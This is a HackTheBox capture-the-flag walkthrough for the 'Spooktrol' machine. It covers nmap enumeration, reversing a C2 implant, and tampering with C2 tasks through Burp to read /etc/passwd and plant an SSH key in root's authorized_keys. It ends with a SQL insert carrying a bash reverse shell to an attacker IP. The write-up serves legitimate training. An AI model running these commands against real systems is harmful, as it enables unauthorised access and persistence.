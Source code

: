 # Enumeration

## Nmap

```bash
sudo nmap -sV -sC -oA nmap/spooktrol 10.10.11.123

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open  http    uvicorn
| http-robots.txt: 1 disallowed entry 
|_/file_management/?file=implant
|_http-server-header: uvicorn
|_http-title: Site doesn't have a title (application/json).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     date: Wed, 27 Oct 2021 07:30:24 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     Connection: close
|     {"detail":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     date: Wed, 27 Oct 2021 07:30:10 GMT
|     server: uvicorn
|     content-length: 43
|     content-type: application/json
|     Connection: close
|     {"auth":"1f74a681bac81a97711d9316b1da1e68"}
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     date: Wed, 27 Oct 2021 07:30:17 GMT
|     server: uvicorn
|     content-length: 31
|     content-type: application/json
|     Connection: close
|_    {"detail":"Method Not Allowed"}
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 16:77:76:8a:65:a3:db:23:11:21:66:6e:e4:c3:f2:32 (RSA)
|   256 61:92:eb:7a:a9:14:d7:60:51:00:0c:44:21:a2:61:08 (ECDSA)
|_  256 75:c1:96:9c:69:aa:c8:74:ef:4f:72:bd:62:53:e9:4c (ED25519)

```


Three ports

- 22
- 80
- 2222

Downloading binary from `/file_management/?file=implant` as mentioned in robots.txt


```bash
wget 'http://10.10.11.123/file_management/?file=implant'
```

# Foothold

## Implant

On running the binary hit some error regarding `json`

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted image 20211028162957.png)



Running wireshark 

![](Pasted image 20211028164325.png)

we found the domain and need to add to `/etc/hosts` file.

Analyzing binary in ghidra 

![](Pasted image 20211028164739.png)

1st flag

![](Pasted image 20211028164912.png)

break at `0x402013` to get 1st flag using `gdb`.

`finish` the function then you will get the flag.

![](Pasted image 20211028165356.png)

# User

break at system in upload funtion in case 3

![](Pasted image 20211028165651.png)


inorder to acheive case three we can use burpsuite, first we need to interscept at locally the binnary 

change host file as following.

![](Pasted image 20211028165920.png)

Then add a second proxy at burp.

![](Pasted image 20211028170055.png)

Thirdly use socat to redirect port 8081 to port 80

`sudo socat TCP-LISTEN:80,fork,reuseaddr TCP:127.0.0.1:8081`

next use match and replace to change reponse task1 to task3

![](Pasted image 20211028170359.png)

its worked.

```bash

┌[parrot]─[17:03-28/10]─[/home/aju/Hackthebox/machines/spooktrol]
└╼aju$./implant
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application


```

It returned as an error beause it is looking for some like we need to find that using gdp. lets break at system.

![](Pasted image 20211028184718.png)

On examine at $rdi we can find that it is looking for file `whoami` lets replace that in burpsuite in `match and replace` into `/etc/passwd`


![](Pasted image 20211028184924.png)


we got replaced in next attempt.

![](Pasted image 20211028185028.png)


![](Pasted image 20211028185049.png)

Now lets change `/etc/passwd` to our ssh public key.


![](Pasted image 20211028185303.png)


upload the public to root's authorized_keys

![](Pasted image 20211028185412.png)

# Root

Logged in as root in docker.

![user](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185502.png)

insert reverse into database task

`INSERT INTO tasks VALUES(13,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.82/9001 0>&1"','',X'726f6f740a');`

![](Pasted image 20211028190236.png)

Got reverse shell as root

![](Pasted image 20211028190141.png)
